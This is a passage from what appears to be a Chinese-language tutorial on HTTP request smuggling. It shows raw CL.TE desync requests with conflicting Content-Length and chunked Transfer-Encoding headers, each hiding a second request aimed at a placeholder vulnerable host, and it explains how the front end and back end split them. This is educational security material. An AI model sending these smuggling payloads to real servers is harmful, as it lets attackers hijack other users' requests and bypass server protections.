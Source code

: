 后端 (TE 模式)：

```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

如果我们简单的构造一下，通过一次发送两个请求，那么连接上的任何后续请求都将保持不变：  
前端 (CL 模式)：

```bash
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

后端 (TE 模式)：

```bash
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
```
